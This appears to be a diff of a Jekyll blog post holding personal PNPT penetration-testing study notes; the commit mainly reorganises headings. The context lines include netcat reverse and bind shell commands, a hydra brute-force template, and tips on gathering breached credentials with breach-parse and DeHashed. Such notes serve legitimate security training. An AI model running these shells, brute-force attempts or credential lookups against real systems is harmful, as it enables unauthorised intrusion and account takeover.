

Before and after one commit to Johnermac/Johnermac.github.io, a Jekyll site: the page built from _posts/certs/pnpt/2023-11-25-peh.md, in a window 1280 px wide and 1400 px high, scrolled down 293 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes; nearby versions of some CDN libraries; some of the changed text lies outside the part shown.

Commit message:
PEH added + corrections

````diff
--- a/_posts/certs/pnpt/2023-11-25-peh.md
+++ b/_posts/certs/pnpt/2023-11-25-peh.md
@@ -3,7 +3,7 @@
 classes: single
 header:
   teaser: /assets/images/posts/pnpt/pnpt-teaser2.jpg
-  overlay_image: /assets/images/main/header5.jpg
+  overlay_image: /assets/images/main/header3.jpg
   overlay_filter: 0.5
 excerpt: "PNPT"
 description: "Recon, Scans, Buffer Overflow, AD, Web exploitation and More"
@@ -18,9 +18,9 @@
 
 # Pre-Study Session
 
-• network
-• linux
-• python
+- network
+- linux
+- python
 
 ## Network
 
@@ -211,7 +211,10 @@
 
 5. Covering Tracks
 
-## Physical / Social assessment
+
+## Reconnaissance
+
+### Physical / Social assessment
 
 Location Information:
 ```
@@ -223,7 +226,7 @@
 pictures (badge photos, desk photos, computer photos, etc)
 ```
 
-## Web / Host
+### Web / Host
 ```
 Target Validation:
   WHOIS, nslookup, dnsrecon
@@ -238,7 +241,7 @@
   HaveIBeenPwned, Breach-Parse, WeLeakInfo
 ```
 
-## Identifying our targets
+### Identifying our targets
 ```
 bugcrowd.com # find companies that we can scan in scope
 hunter.io # find email addresses
@@ -249,16 +252,16 @@
 email-checker.net/validate # email verification
 ```
 
-## Gather breachead credentials with breach-parse at wmaverickadams github
+### Gather breachead credentials with breach-parse at wmaverickadams github
 breach-parse has +40gb of files that were breached with the sh program, we can scan through this files
 
-## Gather breached credentials with DeHashed
+### Gather breached credentials with DeHashed
 ```
 dehashed.com # search emails, phones, usernames, password, etc
 hashes.org # search breached hashes
 ```
 
-## Hunting subdomains
+### Hunting subdomains
 ```
 sublist3r -d <domain>
 crt.sh = %.<domain>  # search certificates that have been registered
@@ -266,7 +269,7 @@
 tomnomnom/httprobe # github = to test the list of domains
 ```
 
-## Identifying Website technologies
+### Identifying Website technologies
 ```
 builtWith.com = Find out what websites are built with
 wappalyzer - firefox extension = go to the website and run the extension
@@ -275,20 +278,20 @@
 social media = look 'for' badges, names, pcs, etc
 ```
 
-## Google Fu
+### Google Fu
 ```
 site: <> filetype:<> -www +something
 ```
 
-
-
-## Network discover
+## Scanning & Enumeration
+
+### Network discover
 ```
 arp-scan -l
 netdiscover -r
 ```
 
-## port scan
+### port scan
 ```
 NMAP
 -sS = SYN SYN/ACK RST (its not send an ack back, thats the stealth mode)
@@ -298,12 +301,12 @@
 -sU = udp we may scan with -p only 1000 ports, cause it takes too long to finish
 ```
 
-## vulnerability scan
+### vulnerability scan
 ```
 nikto
 ```
 
-## directory scan
+### directory scan
 ```
 dirb
 dirbuster
@@ -311,14 +314,14 @@
 dirsearch
 ```
 
-## scan SMB
+### scan SMB
 ```
 auxiliary/scanner/smb/smb_version
 smbclient -L \\\\<ip>\\ = list the shares
 smbclient \\\\<ip>\\<share> = open the share
 ```
 
-## enumerate ssh
+### enumerate ssh
 ```
 \ssh <ip>
 -oKexAlgorithms=+diffie-hellman-group1-sha1 -c aes128-cbc
@@ -328,7 +331,7 @@
 sometimes we try to login without a login/pwd just to see if there is a banner with information that we can use
 
 
-## Researching potential vulnerablities
+### Researching potential vulnerablities
 Now we search with the applications and versions that we found earlier, and try to find any exploit that we can use:
 ```
 with google:
@@ -343,7 +346,7 @@
   search
 ```
 
-## Configuring Nessus
+### Configuring Nessus
 ```
 download > start service > get key with email > enter localhost port 8834
 use schedule option if u wanna *sleep more*
@@ -353,8 +356,9 @@
 
 ```
 
-
-## Netcat Reverse Shell  =  the target connect to us - used the majority of the time
+## Gaining Access
+
+### Netcat Reverse Shell  =  the target connect to us - used the majority of the time
 ```bash
 Kali:
 nc -lvnp <port>
@@ -363,7 +367,7 @@
 nc <kali ip> <port> -e /bin/sh
 ```
 
-## Netcat Bind Shell  =  we connect to target
+### Netcat Bind Shell  =  we connect to target
 ```bash
 Kali:
 nc <ip> <port>
@@ -372,7 +376,7 @@
 nc -lvnp <port> -e /bin/sh
 ```
 
-## Non-staged vs staged payloads
+### Non-staged vs staged payloads
 
 **non-staged** = send exploit shellcode all at once
 larger in size and wont always work
@@ -386,20 +390,20 @@
 
 > Tips - sometimes try to change the type of payload non-staged/staged
 
-## Exploits
+### Exploits
 ```
 searchsploit
 msfconsole
 ```
 
-## Bruteforce
+### Bruteforce
 ```bash
 hydra -l <user> -L <user file> -p <password> -P <password file> <host> <service> <req:user/pwd:msg of failure> -t <threads>
 
 msfconsole > auxiliary/scanner/ssh/ssh_login
 ```
 
-## Burp tips
+### Burp tips
 We can use sniper type of attack to attack one variable and use pitchfork if we need more than 1 variable in burp. Or cluster bomb if we need to try every login/pass possible. To do password spraying or credential stuffing
 
 
````
Also changed, not shown: _posts/certs/pnpt/2023-11-24-pnpt.md (+2 -2 lines).
